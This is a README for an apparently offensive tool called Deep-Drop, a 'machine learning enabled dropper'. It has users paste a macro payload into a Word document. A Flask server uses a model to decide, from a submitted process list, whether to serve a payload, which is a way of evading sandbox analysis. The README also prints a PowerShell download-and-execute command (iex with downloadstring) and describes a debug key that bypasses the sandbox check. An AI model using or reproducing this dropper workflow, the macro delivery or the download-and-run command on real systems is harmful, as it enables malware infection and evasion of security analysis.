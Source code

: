 # Deep-Drop
Machine learning enabled dropper

### Quick Start
```
pip install -r requirements.txt
python deepdrop.py
```

Copy paste the payload (core\macros) into a word doc and run.

### Quick start
```
λ pip3 install requirements
λ python3 deepdrop.py -d

 ____              ____
|    \ ___ ___ ___|    \ ___ ___ ___
|  |  | -_| -_| . |  |  |  _| . | . |
|____/|___|___|  _|____/|_| |___|  _|
              |_|               |_|


[-] All models loaded
[-] Routes loaded
[-] Payloads patched for localhost

[DBG] ece9d57d-ef30-47ed-accb-46ea3c436257

 * Serving Flask app "deepdrop" (lazy loading)
```

### Testing
Passing `-d\--debug` to deepdrop will give back a key that can be used to bypass the sandbox check for testing payloads. `powershell.exe -c "iex (new-object net.webclient).downloadstring('http://localhost/ece9d57d-ef30-47ed-accb-46ea3c436257')"`. Otherwise, submitting a process list and getting a decision from the model is the only way to get a payload executed.

### Staging 
Currently only powershell staging is implemented.

## Training
Implemented in Jupyter notebooks
